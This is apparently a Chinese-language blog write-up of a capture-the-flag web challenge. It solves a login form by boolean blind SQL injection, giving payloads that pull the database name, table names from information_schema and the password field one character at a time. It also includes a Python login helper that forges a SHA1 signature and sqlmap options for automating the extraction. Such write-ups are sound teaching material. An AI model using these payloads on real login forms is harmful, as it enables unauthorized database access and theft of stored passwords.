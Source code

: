```yaml
---
layout: post
title:  "布尔盲注的白给式利用"
date:   2019-05-29
desc: "苟利国家生死以,岂因祸福避趋之"
keywords: none
categories: [Blue-whale]
tags: [sql,web]
icon: icon-html
---
```


# I Am Blind~~（我，星级玩家）~~

题目链接: [http://pwn1.blue-whale.me:23335/](http://pwn1.blue-whale.me:23335/)

这题目都把盲注两个字写脸上了

先`admin'#`试试

发现显示`success login, and flag is your password.`

得，一位一位试就完事了

## 手工注入或脚本注入

> 纯手工

- 库名获取

先把库名长度爆出来

```mysql
admin' and length(database()) = $长度
```

一个一个地试他娘的，试的时候直接对10二分了，还是挺快的

这里得到了库名长度

然后就需要一位一位地获取库名的字符

```mysql
admin' and substr(database(), $位置, 1) = $字符
```

二分比较快wdnmd

- 表名获取

~~我会告诉你库名实际上没什么用？~~

同理先把表名长度爆出来

```mysql
admin' and (select length(table_name) from information_schema.tables where table_schema = database() limit 0,1) = $长度#
```

同理

```mysql
admin' and substr((select table_name from information_schema.tables where table_schema = database() limit 0, 1), $位置, 1) = $字符#
```

- 字段名获取

盲猜`username`和`password`

试一试还真是

- flag获取

一位一位试就是了

```mysql
admin' and substr((select password from $表名 order by id limit 0, 1), $位置, 1) = $字符#
```

反正前五位`flag{`和最后一位`}`是固定的

> 脚本注入

什么你想要脚本？自己慢慢写吧

网上找的login函数

需要注意的是此处POST方法使用了`signature`来进行*sha1*校验，别的就没啥注意事项了

```python
def login(_username, _password):
    url = "http://pwn1.blue-whale.me:23335/index.php"
    data = {
        "username": _username,
        "password": _password,
        "signature": hashlib.sha1(_username + _password).hexdigest()
    }
    response = requests.post(url, data)
    content = response.content
    #print content
    if "success" in content:
        return True
    else:
        return False
```

## SQLMAP

> sqlmap用法

- -u 后接url，指定访问的地址

- --data

  后面接参数表，用于POST方法

- --eval

  设定由某个参数或多个参数决定的变量，如本题**signature**

```shell
--eval="import hashlib;signature=hashlib.sha1(username+password).hexdigest()"
```

- --current-db

  获取当前数据库名

- --tables

  获取数据表名

- --columns

  获取字段名

- --dump

  获取字段值

- -D

  设定数据库名

- -T

  设定数据表名

- -C

  设定字段名

**综上，此题白给**

